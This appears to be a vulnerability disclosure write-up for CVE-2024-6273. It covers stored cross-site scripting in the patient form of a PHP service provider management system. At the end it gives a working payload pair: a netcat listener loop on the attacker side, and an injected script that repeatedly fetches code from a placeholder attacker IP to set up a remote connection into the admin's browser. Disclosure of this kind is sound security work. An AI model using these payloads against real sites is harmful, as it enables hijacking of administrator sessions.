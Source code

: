 # CVE-2024-6273 - Stored Cross Site Scripting by an Unauthenticated User

**Researcher Name:** Guru Raghav Saravanan

**Product:** Service Provider Management System using PHP and MySQL

**Vulnerability:** Stored Cross Site Scripting by an Unauthenticated User

**POC:**
The vulnerability is present in **patient_side.php**. The input fields Full Name, Contact and Address does not sanitize the user input which leads to Stored Cross Site Scripting.

The **save_patient()** function in **master.php** does not sanitize the input before saving.

**patient_side.php**

![patient_side.php](assets/CVE-2024-6273/pic0.png "patient_side.php")

**master.php**

![master.php](assets/CVE-2024-6273/pic1.png "master.php")

Endpoint: https://<vulnerable_site>/patient_side

![patient_form](assets/CVE-2024-6273/pic2.png "patient_form")

Clicking on Submit, the form is submitted to the administrator and can only be viewed by the admin.

![patient_form](assets/CVE-2024-6273/pic3.png "patient_form")

![patient_form](assets/CVE-2024-6273/pic4.png "patient_form")

Now to view the submitted form, login as admin and click on the reports section.

![Report](assets/CVE-2024-6273/pic5.png "Report")

![Report](assets/CVE-2024-6273/pic6.png "Report")

![Report](assets/CVE-2024-6273/pic7.png "Report")

All the stored XSS gets executed…

**Leveraging reverse_connection:**

**Payload:**
**Attacker-Side:** `while :; do printf "sgr>$ "; read c; echo $c | nc -vvlp 4444 >/dev/null; done` 

**Victim-Side:** `"><script>setInterval(function(){d=document;z=d.createElement("script");z.src="//<attacker-ip>:4444";d.body.appendChild(z)},0)</script>`

![shell](assets/CVE-2024-6273/pic8.png "shell")

Start the listener

![payload](assets/CVE-2024-6273/pic9.png "payload")

Visit the reports page now…

![Report](assets/CVE-2024-6273/pic10.png "Report")

Reverse connection received in the attacker machine.

![Report](assets/CVE-2024-6273/pic11.png "Report")